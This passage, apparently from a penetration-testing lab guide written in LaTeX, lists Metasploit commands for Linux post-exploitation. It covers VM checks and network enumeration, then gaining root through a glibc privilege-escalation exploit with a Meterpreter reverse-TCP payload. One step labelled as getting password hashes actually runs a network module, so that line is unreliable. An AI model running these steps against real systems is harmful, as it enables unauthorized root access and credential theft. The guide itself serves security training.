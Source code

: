 \begin{itemize}
    \item Check if the target is a virtual machine:\\
    \texttt{run post/linux/gather/checkvm}
    \item Get network configuration:\\
    \texttt{run post/linux/gather/enum\_network}
    \item Get possible local exploits\\
    \texttt{run post/multi/recon/local\_exploit\_suggester}
\end{itemize}

\subsection{Getting Admin Access}

Once we obtained a session, we can execute some of the local exploits suggested by the previous script:

\begin{itemize}
    \item\texttt{meterpreter > background} (This will show a session name)
    \item\texttt{msf5 > use exploit/linux/local/glibc\_ld\_audit\_dso\_load\_priv\_esc}
    \begin{infobox}
        The next session is the one we obtained by issuing \texttt{meterpreter > background} 
    \end{infobox}
    \item\texttt{msf5 > set session 3}
    \begin{warnbox}
        The exploit \texttt{glibc\_ld\_audit\_dso\_load\_priv\_esc} is configured by default to run a meterpreter reverse tcp but for x64 architecture.
    \end{warnbox}    

    \item \texttt{msf5 > set payload linux/x86/meterpreter/reverse\_tcp}
    \item\texttt{msf5 > run}
\end{itemize}

After we obtain root privileges, we can run more scripts, for example:

\begin{itemize}
    \item Get the password hashes:\\
    \texttt{meterpreter > run post/linux/gather/enum\_network}
\end{itemize}

